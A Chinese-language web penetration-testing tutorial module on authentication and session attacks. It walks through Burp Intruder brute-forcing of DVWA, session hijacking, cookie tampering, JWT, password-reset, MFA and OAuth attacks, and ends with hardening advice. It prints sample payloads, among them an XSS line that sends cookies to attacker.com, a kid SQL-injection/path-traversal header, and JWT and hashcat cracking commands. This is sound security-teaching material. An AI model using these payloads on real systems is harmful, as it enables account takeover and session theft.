


# 07-认证与会话攻击

## 目录
- [[#一、Web认证机制概述|一、Web认证机制概述]]
 - [[#1.1 常见认证方式|1.1 常见认证方式]]
 - [[#1.2 认证漏洞常见模式|1.2 认证漏洞常见模式]]
- [[#二、Burp Suite Intruder暴力破解|二、Burp Suite Intruder暴力破解]]
 - [[#2.1 攻击模式|2.1 攻击模式]]
 - [[#2.2 DVWA登录爆破实战|2.2 DVWA登录爆破实战]]
 - [[#2.3 高级技巧与字典|2.3 高级技巧与字典]]
- [[#三、Session会话攻击|三、Session会话攻击]]
 - [[#3.1 会话固定攻击|3.1 会话固定攻击]]
 - [[#3.2 会话劫持|3.2 会话劫持]]
 - [[#3.3 Cookie篡改攻击|3.3 Cookie篡改攻击]]
- [[#四、JWT攻击|四、JWT（JSON Web Token）攻击]]
 - [[#4.1 JWT结构|4.1 JWT结构]]
 - [[#4.2 JWT攻击技术|4.2 JWT攻击技术]]
 - [[#4.3 JWT测试工具|4.3 JWT测试工具]]
- [[#五、密码重置功能漏洞|五、密码重置功能漏洞]]
- [[#六、MFA多因素认证绕过|六、MFA多因素认证绕过]]
- [[#七、OAuth 2.0攻击|七、OAuth 2.0攻击]]
- [[#八、防御建议与最佳实践|八、防御建议与最佳实践]]

---

## 一、Web认证机制概述

### 1.1 常见认证方式

| 认证方式 | 实现 | 攻击方式 |
|---------|------|---------|
| 表单认证（Form-based） | 用户名+密码 | 暴力破解、SQL注入、凭证泄露 |
| HTTP基本认证（Basic Auth） | Base64编码凭证 | 暴力破解、中间人截获 |
| HTTP摘要认证（Digest Auth） | MD5哈希 | 降级攻击、中间人 |
| Session认证 | Cookie + Server-side Session | 会话劫持、会话固定、CSRF |
| Token认证（Bearer/JWT） | `Authorization: Bearer <token>` | JWT算法混淆、密钥破解 |
| OAuth 2.0 / OIDC | 第三方登录 | redirect_uri劫持、state缺失 |
| 多因素认证（MFA/2FA） | 密码+验证码/生物特征 | MFA疲劳攻击、响应操纵 |

参见 [[../网安基础知识/02-Web技术基础|Web技术基础]] 了解Web认证架构基础，以及 [[../前端基础/前端基础总目录|前端基础]] 了解客户端存储机制。



### 1.2 认证漏洞常见模式

- 弱密码策略：允许简单密码（admin, 123456, password）
- 无账户锁定：允许无限次暴力破解
- 无速率限制：可高速尝试密码
- 用户名枚举：登录错误信息暴露用户是否存在
- 默认凭证：admin/admin, root/toor
- 可预测的密码重置Token：基于时间的Token
- "记住我"功能不安全：可伪造的remember-me Cookie
- 并发登录不限制：无会话数量限制

---

## 二、Burp Suite Intruder暴力破解

### 2.1 攻击模式

Burp Intruder支持4种攻击模式：

| 模式 | 说明 | 适用场景 |
|------|------|---------|
| **Sniper**（狙击手） | 一次测试一个位置，一个payload列表 | 逐个尝试用户名 |
| **Battering Ram**（攻城锤） | 多个位置使用同一个payload | 多处填充相同值 |
| **Pitchfork**（干草叉） | 多个位置一对一配对 | 用户名:密码配对 |
| **Cluster Bomb**（集束炸弹） | 多个位置笛卡尔积，所有组合 | 穷举用户名×密码 |

### 2.2 DVWA登录爆破实战



**详细步骤：**

1. **启动Burp + 配置Firefox代理** → `127.0.0.1:8080`
2. **访问DVWA登录页** → `http://dvwa.local/login.php`
3. **Burp开启拦截** → Proxy → Intercept → "Intercept is on"
4. **输入测试凭据** → Username: test, Password: test → 点击Login
5. **Burp拦截到请求：**
 ```
 POST /login.php HTTP/1.1
 Host: dvwa.local

 username=test&password=test&Login=Login&user_token=<csrf_token>
 ```
6. **右键 → Send to Intruder**
7. **Positions标签 → Clear → 选中username和password值 → Add**
 ```
 username=§test§&password=§test§&Login=Login
 ```
8. **Attack type: Cluster Bomb**
9. **配置Payloads：**
 - Payload set 1（用户名）：admin, root, user, test, administrator
 - Payload set 2（密码）：admin, password, admin123, 123456, root, toor
 - 或加载 `/usr/share/wordlists/rockyou.txt`
10. **Options → Grep-Match → Add "Welcome"** 或 "Logout"
11. **Resource Pool → Max concurrent: 5 → Delay: 200ms**
12. **Start Attack → 分析结果：**
 - Status 302 → 重定向（登录成功）
 - Length与其他不同 → 可能的成功登录
 - Grep Match列显示 "Welcome" → 确认成功

### 2.3 高级技巧与字典

**技巧1: Pitchfork处理CSRF Token**
```
Payload set 1 (用户名): Simple list
Payload set 2 (密码): Simple list
Payload set 3 (CSRF token): Recursive grep
Options → Grep-Extract → 提取csrf_token
```

**技巧2: Payload Processing** — 可对payload进行MD5/SHA哈希、编码、添加前缀/后缀。

**技巧3: 宏（Macro）** — Project options → Sessions → Macros → 录制前置请求获取token/session。

**常见字典位置（ArchStrike）：**
```
/usr/share/wordlists/
 rockyou.txt ← 经典密码字典（1400万+）
 fasttrack.txt ← 快速字典
/usr/share/seclists/（需单独安装）
 Passwords/Common-Credentials/
 Usernames/top-usernames-shortlist.txt
```

---

## 三、Session会话攻击

### 3.1 会话固定攻击

**攻击流程：**
1. 攻击者访问目标网站获得SessionID：`abc123`
2. 构造链接：`http://target.com/login.php?PHPSESSID=abc123`
3. 诱导受害者点击该链接
4. 受害者登录后Session仍为`abc123`
5. 攻击者使用SessionID `abc123` → 以受害者身份访问

**防御：** 登录成功后必须重新生成SessionID（`session_regenerate_id(true)` PHP）；不接受URL参数中的SessionID。

### 3.2 会话劫持

通过以下方式获取受害者SessionID：
1. **XSS：** `<script>document.location='http://attacker.com/?c='+document.cookie</script>`
2. **网络嗅探：** HTTP明文传输Cookie（无HTTPS）
3. **中间人攻击：** 配合ARP欺骗
4. **SessionID在URL中：** `http://site.com/?PHPSESSID=abc123`（Referer泄露）
5. **物理访问：** 查看浏览器Cookie存储
6. **日志泄露：** SessionID在服务器日志中
7. **预测SessionID：** 基于时间戳/序列号可预测的SessionID

**获取SessionID后的利用：**
```
1. Firefox → F12 → Storage → 修改Cookie值 → 粘贴窃取的SessionID → 刷新
2. curl -b "PHPSESSID=stolen_session_id" http://target.com/
3. Burp → Repeater → 修改Cookie头
```

### 3.3 Cookie篡改攻击

**场景1: 修改角色/权限**
```
原始Cookie: user_role=customer
篡改: user_role=admin
```

**场景2: 修改价格/数量**
```
原始Cookie: price=100; quantity=1
篡改: price=1; quantity=100
```

**场景3: IDOR + Cookie**
```
原始Cookie: user_id=123
篡改: user_id=1 （通常是管理员）
```

**场景4: 破解MD5 Cookie**
```
原始Cookie: auth=5f4dcc3b5aa765d61d8327deb882cf99
识别MD5("password") → 逆向生成任意用户的Cookie
```

**场景5: PHP反序列化篡改**
```
原始: user=O:4:"User":2:{s:4:"name";s:5:"guest";s:8:"isAdmin";b:0;}
篡改: user=O:4:"User":2:{s:4:"name";s:5:"admin";s:8:"isAdmin";b:1;}
```

---

## 四、JWT（JSON Web Token）攻击

### 4.1 JWT结构

JWT由三部分组成，用点号（`.`）分隔：`Header.Payload.Signature`

```
Header (Base64URL): {"alg":"HS256","typ":"JWT"}
Payload (Base64URL): {"sub":"123","name":"John","admin":false}
Signature: HMACSHA256(base64(header) + "." + base64(payload), secret)
```

### 4.2 JWT攻击技术

**攻击1: "alg": "none"（无算法攻击）**
```json
原始Header: {"alg":"HS256","typ":"JWT"}
修改Header: {"alg":"none","typ":"JWT"}
修改Payload: {"admin":true}
删除Signature（保留末尾的点） → 发送 → 认证被绕过
```

**攻击2: 密钥破解（HS256弱密钥）**
```bash
jwt-cracker "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..." /usr/share/wordlists/rockyou.txt

# 或使用hashcat
hashcat -m 16500 jwt_token.txt /usr/share/wordlists/rockyou.txt
```

**攻击3: 算法混淆（RS256 → HS256）**
1. 获取服务器公钥（通常 `/.well-known/jwks.json`）
2. 将Header的alg改为HS256
3. 使用公钥作为HMAC密钥签名
4. 服务器因alg混淆使用公钥验证HMAC → 签名通过！

**攻击4: kid参数注入**
```json
{"alg":"HS256","typ":"JWT","kid":"../../etc/passwd"}
{"alg":"HS256","typ":"JWT","kid":"aaa' UNION SELECT 'secret' -- "}
```
kid用于选择密钥，可控时可能导致路径遍历或SQL注入获取密钥。

**攻击5: JKU头注入**
```json
{"alg":"RS256","jku":"http://attacker.com/jwks.json"}
```
攻击者托管恶意JWK Set，服务器使用攻击者的公钥验证。

### 4.3 JWT测试工具

```bash
# jwt_tool基本测试
jwt_tool <JWT_TOKEN>

# 扫描所有已知攻击
jwt_tool <JWT> -M at

# 破解密钥
jwt_tool <JWT> -C -d /usr/share/wordlists/rockyou.txt

# 修改payload
jwt_tool <JWT> -I -pc role -pv admin

# 使用Python调试JWT
python3 -c "
import base64, json
parts = 'JWT_TOKEN'.split('.')
print(json.dumps(json.loads(base64.urlsafe_b64decode(parts[0]+'==')),indent=2))
print(json.dumps(json.loads(base64.urlsafe_b64decode(parts[1]+'==')),indent=2))
"
```

---

## 五、密码重置功能漏洞

**常见密码重置漏洞：**

| 漏洞 | 描述 | 测试方法 |
|------|------|---------|
| Token可预测 | 基于时间戳/用户名MD5/递增ID | 分析Token格式，尝试遍历 |
| Token未过期 | 使用过的Token仍可再次使用 | 重复使用旧Token |
| Host头注入 | 篡改Host → 重置链接发到攻击者邮箱 | `Host: attacker.com` |
| 响应包含密码 | 旧密码明文返回 | 查看重置响应 |
| 跳过验证步骤 | 直接访问step3.php | 修改Cookie中的step参数 |
| 无速率限制 | 大量重置请求 → DoS | 自动化大量请求 |

**密码重置测试检查清单：**
- [ ] Token是否可预测（尝试分析token格式）
- [ ] Token是否可被暴力破解
- [ ] Token是否在链接中（GET参数 → Referer泄露风险）
- [ ] 旧Token是否可重复使用
- [ ] 是否存在用户名枚举（不同响应）
- [ ] 是否存在Host头注入
- [ ] 是否可以修改接收邮箱/手机号
- [ ] 重置流程是否可以跳过某一步
- [ ] 并发请求是否存在竞争条件

---

## 六、MFA多因素认证绕过

| 绕过方法 | 技术细节 |
|---------|---------|
| MFA步骤跳过 | 登录后直接访问 `/dashboard` 跳过 `/verify-mfa` |
| 响应操纵 | `{"mfa_verified": false}` → 改为 `true` |
| Cookie/Token标记 | `mfa=not_verified` → 改为 `mfa=verified` |
| 暴力破解OTP | 4-6位数字 000000-999999（无速率限制时） |
| 重用旧OTP | 已过期的验证码仍可认证 |
| OTP泄露 | OTP通过响应头/HTML注释/API泄露 |
| MFA疲劳攻击 | 反复发送推送通知直到受害者点击"批准" |

---

## 七、OAuth 2.0攻击

**OAuth流程简述：**
1. 用户点击"使用Google登录"
2. 跳转到Google授权页 → 用户同意
3. Google返回授权码到回调URL
4. 应用使用授权码换取Access Token

**常见OAuth漏洞：**

| 漏洞 | 描述 | Payload |
|------|------|---------|
| redirect_uri劫持 | 授权码发到攻击者服务器 | `redirect_uri=https://attacker.com` |
| CSRF + OAuth | 受害者绑定攻击者第三方账号 | 无state参数时 |
| state参数缺失 | 无法防止CSRF | 诱导受害者绑定攻击者账号 |
| scope提升 | 获取更多权限 | `scope=read` → `scope=read+write+admin` |

---

## 八、防御建议与最佳实践

**认证安全加固清单：**

- [ ] 密码策略：最小12位，包含大小写+数字+符号
- [ ] 账户锁定：5次尝试锁定15分钟
- [ ] 速率限制：限制每个IP和每个账户的尝试频率
- [ ] 验证码：登录失败若干次后启用
- [ ] 多因素认证（MFA）：关键系统强制MFA
- [ ] Session安全：HttpOnly + Secure + SameSite=Strict
- [ ] 登录后重生成SessionID
- [ ] 登出时销毁Session（服务端）
- [ ] 密码重置Token：加密随机、单次使用、短期有效
- [ ] 使用BCrypt/Argon2存储密码（不用MD5/SHA1）
- [ ] 使用参数化查询防SQL注入
- [ ] 错误消息统一（不区分用户不存在和密码错误）

[[../总目录与快速查询|← 返回总目录]] | 上一模块：[[06-文件包含与命令注入|06-文件包含与命令注入]] | 下一模块：[[08-Web渗透综合实战|08-Web渗透综合实战]]
